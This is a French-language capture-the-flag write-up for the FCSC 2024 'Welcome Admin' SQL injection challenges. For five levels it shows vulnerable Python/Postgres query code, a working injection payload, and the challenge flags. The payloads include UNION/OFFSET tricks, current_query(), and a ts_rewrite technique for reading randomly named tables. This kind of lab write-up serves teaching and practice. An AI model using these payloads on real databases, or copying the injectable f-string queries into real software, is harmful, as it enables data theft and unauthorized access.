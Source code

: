 # FCSC 2024
## Challenges :
Welcome Admin 1/2  
Welcome Admin 2/2

## Thème : Injection de SQL
## Welcome Admin 1/2  
Au cœur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

## Welcome Admin 2/2
Au cœur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

URL du serveur : https://welcome-admin.france-cybersecurity-challenge.fr/

![Login](login.png)

Lien du serveur de l’archive container : 
https://france-cybersecurity-challenge.fr/files/e8c67b40e1e1a23305e8592a647e5756/welcome-admin.tar.xz?token=eyJ1c2VyX2lkIjozNDEsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE4OH0.Zhz9kg.gxNsCVdWeE4J0Wck30a0B0YfEbU

## Analyse des sources :
Serveur web écrit en Python avec une base Postgres
On peut le lancer en locale : 
docker-compose up --build
Le serveur est alors disponible en 127.0.0.1 :8000

Le code est assez simple , il y a 5 url qui correspondent aux 5 niveaux d’administration. 
Chaque niveau d’administration correspond à une injection SQL plus ou moins tordu	




## Level 1 :
Code python :
```python
cursor.execute(f"SELECT '{token}' = '{password}'")
```

Injection :
```
' OR '1' = '1
```

Flag : FCSC{94738150696e2903c924f0079bd95cd8256c648314654f32d6aaa090846a8af5}

## Level 2 :
Code python :
```python

  cursor.execute(
        f"""
            CREATE FUNCTION check_password(_password text) RETURNS text
            AS $$
                BEGIN
                    IF _password = '{token}' THEN
                        RETURN _password;
                    END IF;
                    RETURN 'nope';
                END;
            $$ 
            IMMUTABLE LANGUAGE plpgsql;
        """
    )
    cursor.execute(f"SELECT  check_password('{password}')")
```

La problématique est d’afficher le mot de passe aléatoire de la procédure. 
On utilise la table pg_proc & on fait un substring pour récupérer la valeur.

Injection :
```
t')  UNION (select SUBSTRING(pg_get_functiondef(oid) FROM 178 FOR 32) from pg_proc where proname = 'check_password') LIMIT ('2
```

## Level 3 :
Code python :
```python

cursor.execute(f"SELECT '{token}', '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[1] == token
```

La problématique est ici assez tordue. Il faut que la deuxième de la colonne de requête soit régale au token.
En explorant les fonctions tordu de la doc de postgres, je suis tombé sur current_query() qui permet de récupérer cette requête.
Injection :
```
' || SUBSTRING(current_query() FROM 9 FOR 32) --
```

## Level 4 :
Code python :
```python

cursor.execute(f"""SELECT md5(random()::text), '{password}';""")
```

Il est probablement impossible de deviner le md5(random() ::text)
Le plus est donc de faire qu’on injecte une nouvelle ligne de données et on ignore la première avec le UNION SELECT … OFFSET

Injection :
```
' UNION SELECT 'toto', 'toto' OFFSET 1 –
```


## Level 5 :
Code python :
```python

@app.route("/turbo-admin", methods=["GET", "POST"])
@login_for(Rank.TURBO_ADMIN, Rank.FLAG, "/flag")
def level5(cursor: cursor, password: str):
    table_name = "table_" + os.urandom(16).hex()
    col_name = "col_" + os.urandom(16).hex()
    token = os.urandom(16).hex()

    cursor.execute(
        f"""
        CREATE TABLE "{table_name}" (
          id serial PRIMARY KEY,
          "{col_name}" text
        );

        INSERT INTO "{table_name}"("{col_name}") VALUES ('{token}');
        """
    )
    cursor.execute(f"SELECT '{password}';")
    row = cursor.fetchone()
    print(row)
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```


Le token, le plus tordu à récupérer.  Il est stocké dans une table avec un nom aléatoire et un nom de colonne aléatoire avec un contenu aléatoire.
Difficulté, on ne peut pas normalement faire de requête avec des nom variabilisé.
Il me fallait donc une sorte de fonction eval qui consomme un string pouvant contenir une requête.
Je suis tombé sur les ts_rewrite , to_tsquery dans la doc. 
Recherche rapide sur google pour trouver exemple d’utilisation sous forme d’exploit. Je tombe sur :
https://www.synacktiv.com/publications/dont-fear-the-bark-tsrewrite-to-dodge-the-mark

Le job est presque fait :
Injection :
```
' UNION SELECT SUBSTRING(CAST(ts_rewrite('lock', 'SELECT to_tsquery(''lock''), to_tsquery(' || (SELECT column_name || ') FROM ' || table_name FROM information_schema.columns WHERE column_name like 'col\_%' and table_name like 'table\_%' LIMIT 1)) AS TEXT)||'', 2, 32) OFFSET 1  --
```

Enfin, le flag :
```
FCSC{a380e590ae8ffe8da9bb86f27d05203b7f9d32dd37c833c2764097840848b3a2}
```
